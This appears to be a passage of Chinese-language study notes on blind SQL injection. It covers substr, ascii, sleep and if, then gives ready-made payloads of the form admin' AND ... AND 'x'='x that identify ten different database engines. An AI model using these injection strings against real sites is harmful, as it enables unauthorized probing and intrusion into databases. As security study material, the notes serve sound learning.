 exp: `substr('PASSWORD',1,2)` ==> `PA`

> 从1(0等同1)开始取2个

`ascii()` 返回字符的ascii码

可打印ascii码 从 `32`-`127`

exp: `ascii(substr('PASSWORD',1,1))` ==> `80`

`sleep()` 挂起

`if(expr1,expr2,expr3)` 如果`expr1`为真 则`expr2` 否则`expr3`

## 各数据库确认特征

H2

`admin' AND ZERO() IS 0 AND 'Bhmw'='Bhmw`

Mysql

`admin' AND QUARTER(NULL) IS NULL AND 'WcHB'='WcHB`

Oracle

`admin' AND LENGTH(SYSDATE)=LENGTH(SYSDATE) AND 'uXbw'='uXbw`

PostgreSQL

`admin' AND QUOTE_IDENT(NULL) IS NULL AND 'zJZp'='zJZp`

Microsoft Sql Server

`admin' AND UNICODE(SQUARE(NULL)) IS NULL AND 'ifwo'='ifwo`

SQLite

`admin' AND LAST_INSERT_ROWID()=LAST_INSERT_ROWID() AND 'PAGa'='PAGa`

Microsoft  Access

`admin' AND VAL(CVAR(1))=1 AND 'GCof'='GCof`

Firebird

`admin' AND (SELECT COUNT(*) FROM RDB$DATABASE WHERE 4626=4626)>0 AND 'gAtU'='gAtU`

SAP MaxDB

`admin' AND ALPHA(NULL) IS NULL AND 'buDg'='buDg`

Sybase

`admin' AND @@transtate=@@transtate AND 'CVzH'='CVzH`